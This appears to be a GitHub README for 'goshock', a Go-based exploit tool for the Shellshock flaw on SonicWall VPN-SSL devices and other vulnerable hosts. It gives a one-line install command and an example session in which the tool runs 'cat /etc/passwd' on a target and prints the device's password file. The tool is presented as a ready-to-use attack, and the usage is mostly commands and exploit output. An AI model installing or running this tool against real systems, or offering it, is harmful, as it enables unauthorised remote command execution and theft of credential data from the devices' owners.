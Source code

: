 # goshock
SonicWall VPN-SSL Exploit* using Golang ( * and other targets vulnerable to shellshock ).

# Install
```
▶ go get -u -v github.com/gustavorobertux/goshock
```
# Basic Usage
```
▶ goshock

TARGET> x.x.x.x
Linux Shell Command> cat /etc/passwd

root:x:0:0:root:/root:/usr/sbin/cli
bin:x:1:1:bin:/bin:/bin/false
daemon:x:2:2:daemon:/sbin:/bin/false
mail:x:8:12:mail:/var/spool/mail:/bin/false
squid:x:23:23:ftp:/var/spool/squid:/bin/false
ntp:x:38:38::/etc/ntp:/bin/false
sshd:x:74:74:sshd:/var/empty:/bin/false
nobody:x:99:99:Nobody:/home/nobody:/bin/false
snort:x:100:101:ftp:/var/log/snort:/bin/false
logwatch:x:102:102::/var/log/logwatch:/bin/false
dnsmasq:x:103:103::/:/bin/false
cron:x:104:104::/:/bin/false
admin::105:105::/:/usr/sbin/cli
```
# Screenshot

